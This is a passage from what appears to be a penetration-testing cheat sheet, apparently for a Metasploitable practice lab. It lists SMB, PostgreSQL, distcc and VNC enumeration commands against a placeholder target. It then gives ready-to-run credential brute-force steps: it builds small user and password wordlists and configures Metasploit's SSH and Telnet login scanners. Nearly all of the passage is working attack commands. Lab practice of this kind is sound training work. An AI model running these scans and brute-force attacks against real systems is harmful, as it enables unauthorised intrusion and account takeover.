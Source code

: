 # SMB enumeration
enum4linux -a TARGET_IP
smbclient -L //TARGET_IP -N

# PostgreSQL discovery (scripts)
nmap -Pn TARGET_IP -p 5432 --script=pgsql-info -oN pg_recon.txt

# distcc discovery
nmap -Pn TARGET_IP -p 3632 -sV -oN distcc_recon.txt

# VNC discovery
nmap -Pn TARGET_IP -p 5900-5905 -sV -oN vnc_recon.txt

3. Credential attacks / brute-force (use responsibly)
# Prepare small wordlists (example)
cat > ~/ssh_users.txt <<'USERS'
msfadmin
root
admin
user
USERS

cat > ~/ssh_pass.txt <<'PASSES'
msfadmin
password
123456
toor
PASSES

Using Metasploit auxiliary scanners
# SSH brute force (msf)
sudo msfconsole -q
use auxiliary/scanner/ssh/ssh_login
set RHOSTS TARGET_IP
set RPORT 22
set USER_FILE /root/ssh_users.txt
set PASS_FILE /root/ssh_pass.txt
set THREADS 10
set STOP_ON_SUCCESS true
run

# Telnet brute force (msf)
use auxiliary/scanner/telnet/telnet_login
set RHOSTS TARGET_IP
set RPORT 23
set USER_FILE /root/ssh_users.txt
set PASS_FILE /root/ssh_pass.txt
set THREADS 10
set STOP_ON_SUCCESS true
run
